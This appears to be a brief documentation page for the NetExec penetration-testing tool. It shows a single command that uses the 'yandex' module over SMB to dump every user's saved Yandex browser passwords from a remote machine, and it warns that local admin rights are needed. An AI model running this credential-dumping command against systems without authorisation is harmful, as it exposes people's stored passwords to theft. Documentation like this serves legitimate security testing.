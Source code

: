# Dump Yandex Browser Credentials

Extract all saved passwords from the Yandex browser for every user on the system.

{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

```bash
nxc smb <ip> -u user -p pass -M yandex
```

